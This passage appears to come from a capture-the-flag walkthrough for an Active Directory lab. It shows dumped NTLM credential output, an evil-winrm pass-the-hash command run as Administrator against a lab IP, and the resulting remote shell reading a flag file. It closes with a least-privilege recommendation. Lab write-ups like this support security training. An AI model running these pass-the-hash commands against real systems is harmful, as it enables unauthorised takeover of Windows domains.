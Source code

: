 ```
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : DDD22F37A3037852AFGE70FAB93E0CC71 
```

You can now execute a pass-the-hash attack using the NTLM hash obtained from the previous command. This attack involves leveraging the encrypted password stored in the Domain Controller rather than relying on the plaintext password.

To do this, you can use Evil-WinRM, a tool for remotely managing Windows systems abusing the Windows Remote Management (WinRM) protocol.

```
evil-winrm -i 10.10.215.197 -u Administrator -H F138C405BD9F3139994E220CE0212E7C
```

You have to use the -i parameter with 10.10.215.197, the -u parameter with the user from the enumeration step, and the -H parameter with the hash of the user you got from the last row of the previous step (NTLM).

To do this, you can use Evil-WinRM on your AttackBox.

```
root@attackbox ~/D/vpn> evil-winrm -i IP_MACHINE -u Administrator -H F138C405BD9F3139994E220CE0212E7C
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
*Evil-WinRM* PS C:\Users\Administrator\Documents> more C:\Users\Administrator\Desktop\flag.txt
THM{***********}

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

**Conclusion**

We've stumbled upon a misconfiguration after all! In this scenario, an attacker could gain full access to our Active Directory, posing a severe threat to the entire AntarctiCrafts security system.

As for our recommendations, we'll emphasise cyber security's golden rule: "the principle of least privilege". By strictly adhering to this principle, we can limit access to only what's necessary for each user or system, significantly reducing the risk of such a devastating compromise.

In the chilly world of cyber security, less is often more!

**Q/A**

![thm](https://github.com/schoto/Advent-of-Cyber-2023/assets/69323411/1a3d486d-c2fa-43f0-be9e-4043cdfefa15)
